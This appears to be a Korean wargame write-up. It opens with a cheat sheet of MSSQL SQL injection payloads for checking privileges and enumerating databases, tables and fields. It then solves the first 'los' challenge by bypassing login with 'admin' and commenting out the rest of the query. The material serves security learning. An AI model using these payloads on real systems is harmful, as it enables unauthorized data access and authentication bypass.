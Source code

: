  - 권한 확인
    ☞ and 1=(IS_SRVROLEMEMBER(‘sysadmin’))

 - DB 계정 권한 확인
    ☞ and 1=(IS_MEMBER(‘db_owner’))

 - DB 이름 확인
    ☞ and 0<>db_name()

 - DB 사용자 확인
    ☞ and user>0

 - DB 확인
    ☞ and 1=(select name from master.dbo.sysdatabases where dbid=1)

- DB Table 및 첫번째 Field 확인
    ☞ ‘ having 1=1--

 - DB Table Field 확인
    ☞ ‘ group by Table.1stField having 1=1--

 - DB Table Field Type 확인
    ☞ ‘ union select sum(Field) from Table --

정리 끝
이제 문제를 풀어보자

los 1번 문제<br>

<br>간단한 sql 기법과 php언어만 안다면 쉽게 풀 수 있는 문제임
<img width="609" alt="los 1" src="https://user-images.githubusercontent.com/40850499/43367810-f2ede5a6-938d-11e8-9c17-024a01967ac7.PNG">

그래도 다양한 시도를 한척 하기 위해
<br>
id = jiuyn pw = 1234를 넣어봄<br>
<img width="435" alt="1" src="https://user-images.githubusercontent.com/40850499/43367785-a7faaa20-938d-11e8-825d-51c19606cecc.PNG">
<br> 당연히 풀리지 않음
<br>
<img width="439" alt="los 1" src="https://user-images.githubusercontent.com/40850499/43367825-141a0c6e-938e-11e8-8797-892d424b5452.PNG">
<br>
DB에 존재하는 id 값을 넣어주면 바로 풀리는 문제라고 깨닫고 인증 우회 기법을 사용해줌<br>
id에 admin을 넣어주고 그 뒤로 나오는 모든 값을 주석처리 해줌<br>
어렵지 않게 풀리는 것이 확인 가능함

끝!
